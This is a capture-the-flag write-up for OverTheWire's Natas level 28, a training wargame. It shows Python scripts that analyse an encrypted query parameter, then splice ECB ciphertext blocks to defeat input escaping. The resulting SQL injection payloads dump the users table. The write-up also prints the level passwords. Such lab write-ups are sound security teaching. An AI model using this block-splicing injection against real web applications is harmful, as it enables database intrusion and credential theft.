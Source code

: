 # Level 27 → Level 28

## Details
Username: `natas28`<br />
Password: `skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4`<br />
URL:      http://natas28.natas.labs.overthewire.org

## Solution
Wow that took a long time out of my life...<br />
Let's start:

![](0.png)

![](1.png)

![](2.png)

Well, there is a case of HTTP redirect here. Let's see it in Wireshark:

![](3.png)

I tried playing a bit with the **query** parameter...

![](4.png)

![](5.png)

I looked into what [PKCS#7 padding](https://medium.com/asecuritysite-when-bob-met-alice/so-what-is-pkcs-7-daf8f4423fd1) is... but didn't have much to do with it at the moment.

So, I decided to look deeper into the strange parameter sent by the site itself. It was very easy to understand that it was base64, so I created a program that prints the original bytes that are sent to the query for many inputs:

```python
from requests import get
from requests.auth import HTTPBasicAuth
from urllib.parse import unquote
from base64 import b64decode
from string import printable

# Current level details
natas28_username = "natas28"
natas28_password = "skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4"

# GET HTTP details
URL = "http://natas28.natas.labs.overthewire.org/?query={0}"
AUTH = HTTPBasicAuth(natas28_username, natas28_password)

for c in printable:
    res = get(url=URL.format(c), auth=AUTH, allow_redirects=False)
    new_location = res.headers['Location'].split('=')[-1]
    print(bytes.hex(b64decode(unquote(new_location))))
```

![](6.png)

that's very weird. Everything is the same except for a 16-byte part in the middle.
Let's print again separating into groups of 16 bytes:

```python
from requests import get
from requests.auth import HTTPBasicAuth
from urllib.parse import unquote
from base64 import b64decode
from string import printable

# Current level details
natas28_username = "natas28"
natas28_password = "skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4"

# GET HTTP details
URL = "http://natas28.natas.labs.overthewire.org/?query={0}"
AUTH = HTTPBasicAuth(natas28_username, natas28_password)

for c in printable:
    res = get(url=URL.format(c), auth=AUTH, allow_redirects=False)
    new_location = res.headers['Location'].split('=')[-1]
    decoded = bytes.hex(b64decode(unquote(new_location)))
    print(c + ":", ' '.join([decoded[i*2*16:(i+1)*2*16] for i in range(len(decoded)//(2*16))]))
```

![](7.png)

A number of things can be concluded from looking at the output.
* Each row can be divided into 3 parts in this order:
    * Fixed part<br />
    `1be82511a7ba5bfd578c0eef466db59c dc84728fdcf89d93751d10a7c75c8cf2`
    * Variable part (probably depends on input from the user)
    * A part that in most cases looks the same except for the characters `"`, `#`, `&`, `'`, `\`, `\n`, `\r`

* It seems that the input from the user has been padded to 16 bytes, and encrypted.

I decided to try another approach, which is to see what happens when the input size changes. How does it affect?

```python
from requests import get
from requests.auth import HTTPBasicAuth
from urllib.parse import unquote
from base64 import b64decode

# Current level details
natas28_username = "natas28"
natas28_password = "skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4"

# GET HTTP details
URL = "http://natas28.natas.labs.overthewire.org/?query={0}"
AUTH = HTTPBasicAuth(natas28_username, natas28_password)

for i in range(32):
    res = get(url=URL.format('*'*i), auth=AUTH, allow_redirects=False)
    new_location = res.headers['Location'].split('=')[-1]
    decoded = bytes.hex(b64decode(unquote(new_location)))
    print(str(i).zfill(2) + ":", ' '.join([decoded[i*2*16:(i+1)*2*16] for i in range(len(decoded)//(2*16))]))
```

![](8.png)

And from this I deduced the following:
* The third part of the line actually depends on the second part. (Here it is expressed because of the size of the input).
* It is possible that what actually happens is a combination of the input from the user within an existing string (for example an sql query), padding and encryption.
* We have no control over the first part.
* The characters `&` and `#` are removed from the input
* The characters `\`, `\r`, `\n`, `"`, `'` increase the input by one character.

Therefore, the order of operations on the server is as follows:
1. The input comes from the user
2. The characters `&` and `#` are removed from it
3. The input goes through the `mysqli_real_escape_string` function
4. The input is integrated into a sql query and padded to a 16-byte division (probably with PKCS#7 padding)
5. The query undergoes some kind of block encryption, base64 and is sent as a parameter to the redirect.<br />
It also makes sense because of the parameter name, **"quary"**.

Can we generate a `select * from users where username='natas29'` style query ourselves and send? No. Because we don't know the encryption and its key...

So what can we do? After all, we will not be able to do sql injection due to the protection.<br />
is that so?<br />
Why can't we separate blocks between the protection of the `mysqli_real_escape_string` function (adding a slash '\') and the special character?<br />
Ummm..<br />
Can we produce a hacked block and assemble a hacked query with it? Let's check it out!
We know that in each query up to 3 answers are displayed. We will try to get more answers as a start.

Note:
From an trial & error about the size of the input, it turns out that the original sql quary looks like this:<br />
`################ ################ ######<user input>########## ################ ####----------------`<br />
* First 6 characters in the block of the input I concluded that if you enter 10 characters and see result, then 11 characters and see result, you immediately see that **the block is the same** the second time. And if the size is 16, then before the input there were 6. <br />
* If the input to the quary is of size 0, then the fifth (and last) block has 4 bytes and then padding. This is true because when the input is size 12 there are still 5 blocks, and if the input is size 13 there are already 6 blocks.

Therefore, you have to be careful about the 6 bytes that go into the user's block, and you also have to be aware of the fact that each added character moves all the ones that come in line.

Back to our experiment:
1. We would like to inject a block that begins with the character `'` (that is, the last character in the previous block is `\`)
2. It is forbidden to omit the 6 bytes pushed to the user's block.

and hence:<br />
The input `*********' or 1=1-- -` will give us:<br />
![](9.png)

The input `**********` will give us: <br />
![](10.png)

Let's put them together and see what we got:

```python
from urllib.parse import quote
from base64 import b64encode

fixed_bytes = "1be82511a7ba5bfd578c0eef466db59c dc84728fdcf89d93751d10a7c75c8cf2"
Keeps_6_bytes = "60a227d6fb6eddec61d83de2500edd76"
user_input_and_the_rest = "7ec495538e8b79cb720f5dd46fc8a81c 41c098c4bacdc5ed9357564e5105dd7e 64d0dcc868253692adfcbd3796d1bf8a"

q = (fixed_bytes + Keeps_6_bytes + user_input_and_the_rest).replace(' ', '')

print('http://natas28.natas.labs.overthewire.org/search.php/?query=' + quote(b64encode(bytes.fromhex(q))))

# Output:
# http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W/1XjA7vRm21nNyEco/c%2BJ2TdR0Qp8dcjPJgoifW%2B27d7GHYPeJQDt12fsSVU46LectyD13Ub8ioHEHAmMS6zcXtk1dWTlEF3X5k0NzIaCU2kq38vTeW0b%2BK
```

![](11.png)

It worked!!<br />
Can we get the password now?<br />
The input `*********' union select password from users-- -` will give us:<br />
![](12.png)

We will now build the url exactly as before:
```python
from urllib.parse import quote
from base64 import b64encode

fixed_bytes = "1be82511a7ba5bfd578c0eef466db59c dc84728fdcf89d93751d10a7c75c8cf2"
Keeps_6_bytes = "60a227d6fb6eddec61d83de2500edd76"
user_input_and_the_rest = "f89dd8dbec15c6a6d9993a3dc7b7a308 86951754f7ad56454eb5d5b6768ee646 27d788aa2b09337e8d4bcc1e820f6370 a77e8ed1aabe0b5d05c4ffe6ac1423ab 478eb1a1fe261a2c6c15061109b3feda"

q = (fixed_bytes + Keeps_6_bytes + user_input_and_the_rest).replace(' ', '')

print('http://natas28.natas.labs.overthewire.org/search.php/?query=' + quote(b64encode(bytes.fromhex(q))))

# Output:
# http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W/1XjA7vRm21nNyEco/c%2BJ2TdR0Qp8dcjPJgoifW%2B27d7GHYPeJQDt12%2BJ3Y2%2BwVxqbZmTo9x7ejCIaVF1T3rVZFTrXVtnaO5kYn14iqKwkzfo1LzB6CD2Nwp36O0aq%2BC10FxP/mrBQjq0eOsaH%2BJhosbBUGEQmz/to%3D
```

![](13.png)

That is, we collected 0 jokes from their table, and guessed correctly that the table relevant to the solution is called "users". It turns out that there is only one user in *users*, natas29.<br />
That's the password!!!<br />
Have a wonderful day!

## Password for the next level:
```
pc0w0Vo0KpTHcEsgMhXu2EwUzyYemPno
```
